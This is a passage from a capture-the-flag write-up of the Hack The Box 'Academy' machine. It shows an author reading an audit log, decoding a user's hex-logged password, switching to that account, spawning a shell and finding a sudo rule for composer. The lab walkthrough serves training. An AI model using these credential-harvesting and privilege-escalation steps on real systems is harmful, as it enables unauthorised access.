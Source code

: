 I continued to enumerate and with linpeas i found interesting audit log that i could read:

```
cry0l1t3@academy:/var/www/html/htb-academy-dev-01/public$ cat /var/log/audit/audit.log.3 | grep 1002
</public$ cat /var/log/audit/audit.log.3 | grep 1002      
type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
type=USER_AUTH msg=audit(1597199304.778:85): pid=2520 uid=1002 auid=0 ses=1 msg='op=PAM:authentication grantors=pam_permit,pam_cap acct="mrb3n" exe="/usr/bin/su" hostname=academy addr=? terminal=tty1 res=success'
type=USER_ACCT msg=audit(1597199304.778:86): pid=2520 uid=1002 auid=0 ses=1 msg='op=PAM:accounting grantors=pam_permit acct="mrb3n" exe="/usr/bin/su" hostname=academy addr=? terminal=tty1 res=success'
type=CRED_ACQ msg=audit(1597199304.778:87): pid=2520 uid=1002 auid=0 ses=1 msg='op=PAM:setcred grantors=pam_permit,pam_cap acct="mrb3n" exe="/usr/bin/su" hostname=academy addr=? terminal=tty1 res=success'
type=USER_START msg=audit(1597199304.778:88): pid=2520 uid=1002 auid=0 ses=1 msg='op=PAM:session_open grantors=pam_env,pam_env,pam_mail,pam_limits,pam_tty_audit,pam_permit,pam_umask,pam_unix,pam_systemd acct="mrb3n" exe="/usr/bin/su" hostname=academy addr=? terminal=tty1 res=success'
type=USER_END msg=audit(1597199317.622:91): pid=2520 uid=1002 auid=0 ses=1 msg='op=PAM:session_close grantors=pam_env,pam_env,pam_mail,pam_limits,pam_tty_audit,pam_permit,pam_umask,pam_unix,pam_systemd acct="mrb3n" exe="/usr/bin/su" hostname=academy addr=? terminal=tty1 res=success'
type=CRED_DISP msg=audit(1597199317.622:92): pid=2520 uid=1002 auid=0 ses=1 msg='op=PAM:setcred grantors=pam_permit acct="mrb3n" exe="/usr/bin/su" hostname=academy addr=? terminal=tty1 res=success'
```
I noticed "su" command (ran by mrb3n) followed by data="some hex string". This is because audit stored command parameters in hex format into audit.log file.
I decode the string from hex to ascii and found password mrb3n_Ac@d3my!

```
So i switched to user mrb3n and found something useful to sudo file:
 
cry0l1t3@academy:/var/www/html/htb-academy-dev-01/public$ su mrb3n
su mrb3n
Password: mrb3n_Ac@d3my!

$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
mrb3n@academy:/var/www/html/htb-academy-dev-01/public$ sudo -l
sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
mrb3n@academy:/var/www/html/htb-academy-dev-01/public$
```
## Root Flag

